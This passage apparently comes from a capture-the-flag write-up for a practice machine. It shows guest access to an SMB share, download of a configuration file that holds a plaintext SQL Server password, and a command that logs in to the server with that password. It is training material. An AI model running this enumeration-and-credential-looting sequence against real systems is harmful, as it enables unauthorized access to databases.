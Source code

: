 - tried getting access to the sql server with `sqsh`, but this requires credentials (https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)
- let's look at the samba share:

  ```
  $ smbclient -L //10.129.128.116/ -U guest
  Password for [WORKGROUP\guest]:

          Sharename       Type      Comment
          ---------       ----      -------
          ADMIN$          Disk      Remote Admin
          backups         Disk
          C$              Disk      Default share
          IPC$            IPC       Remote IPC
  Reconnecting with SMB1 for workgroup listing.
  do_connect: Connection to 10.129.128.116 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
  Unable to connect with SMB1 -- no workgroup available
  ```

- let's look at the backups share

  ```
  $ smbclient //10.129.128.116/backups -U guest
  Password for [WORKGROUP\guest]:
  Try "help" to get a list of possible commands.
  smb: \> ls
    .                                   D        0  Mon Jan 20 13:20:57 2020
    ..                                  D        0  Mon Jan 20 13:20:57 2020
    prod.dtsConfig                     AR      609  Mon Jan 20 13:23:02 2020

                  5056511 blocks of size 4096. 2615849 blocks available
  smb: \> get prod.dtsConfig
  getting file \prod.dtsConfig of size 609 as prod.dtsConfig (0.4 KiloBytes/sec) (average 0.4 KiloBytes/sec)
  ```

- now let's take a look at the downloaded file:

  ```
  $ cat prod.dtsConfig
  <DTSConfiguration>
      <DTSConfigurationHeading>
          <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
      </DTSConfigurationHeading>
      <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
          <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
      </Configuration>
  </DTSConfiguration>
  ```

- it appears that we have some credentials for the sql server: `Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;`
- we can manually connect to the server: `$ sqsh -S 10.129.128.116 -U ARCHETYPE\\sql_svc -P M3g4c0rp123`
- alternatively, and as suggested by the guide, we can use the impacket script `mssqlclient.py`
